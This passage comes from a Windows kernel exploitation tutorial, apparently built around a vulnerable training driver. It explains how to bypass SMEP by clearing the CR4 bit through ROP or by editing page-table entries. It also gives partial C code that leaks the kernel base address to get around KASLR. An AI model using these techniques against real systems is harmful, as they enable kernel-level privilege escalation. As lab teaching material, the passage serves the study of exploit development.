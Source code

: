 as you can see SMEP is not letting us execute shellcode we allocated in our program memory which sucks but lucky for us there are two ways to bypass it 

Methode 1:

What we will do is change the 20th bit in the CR4 Register this bit controls SMEP if we can set it to 0 we disable it and we can execute shellcode from usermode, in this methode we can use rop gadgets in order to change the bit or we need another vulnerability to do so but usually since we are in kernel mode rop is the way and i will explain why later since this is the method we will use 

Methode 2:

this technique is more modern what we do is get the PTE address of our shellcode in memory in order to change the 2nd bit which marks our shellcode as a Kernel page therefore it will allow us to execute shellcode ,[here](https://github.com/wetw0rk/Exploit-Development/tree/master/HEVD-Exploits/0x01%20-%20Stack%20Overflow/Windows%2010%20(x64)) is a poc where he used this technique.

### KASLR

Kernel Address Space Layout Randomization is a security feature that randomizes the memory layout of the operating system’s kernel and its components each time the system boots.

so this exploit assumes you are already in the system and have at least a shell into the target machine which makes KASLR useless but for example if you don't have access to the target machine its not possible to know the base address of the kernel without a memory leak vulnerability and without the kernel base you can't write your exploit like writing to kernel memory you need to write all your kernel addresses relative to the kernel base but luckily for us this is not a problem we can use windows api to get the kernel base address dynamically or you can even use windbg or a debugger to get it.

## Bypassing KASLR

lets start with KASLR as i said this is very easy and we can write a simple function that gets the kernel base for us so we don't need to worry about it.

```c
uint64_t GetKernelBaseAddress()
{
    ULONG_PTR pKernelBaseAddress = 0;
    LPVOID* lpImageBase = NULL;
    DWORD dwBytesNeeded = 0;

    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to calculate bytes needed for device driver entries");
        return -1;
    }

    if (!(lpImageBase = (LPVOID*)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate heap for lpImageBase\n");
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers: %d", GetLastError());
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    pKernelBaseAddress = ((ULONG_PTR*)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

```